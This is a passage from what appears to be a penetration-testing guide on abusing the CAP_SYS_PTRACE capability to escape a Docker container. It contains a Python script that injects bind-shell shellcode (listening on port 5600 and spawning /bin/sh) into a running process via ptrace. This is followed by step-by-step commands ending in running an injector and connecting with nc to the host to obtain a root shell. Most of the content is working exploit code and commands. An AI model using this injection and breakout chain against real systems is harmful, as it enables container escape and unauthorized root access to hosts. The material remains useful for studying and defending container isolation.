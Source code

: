 ```python
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
    # Convert the byte to little endian.
    shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
    shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte=int(shellcode_byte_little_endian,16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

**Example with environment (Docker breakout) - Shellcode Injection**

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```

List **processes** running in the **host** `ps -eaf`

1. Get the **architecture** `uname -m`
2. Find a **shellcode** for the architecture ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. Find a **program** to **inject** the **shellcode** into a process memory ([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c))
4. **Modify** the **shellcode** inside the program and **compile** it `gcc inject.c -o inject`
5. **Inject** it and grab your **shell**: `./inject 299; nc 172.17.0.1 5600`
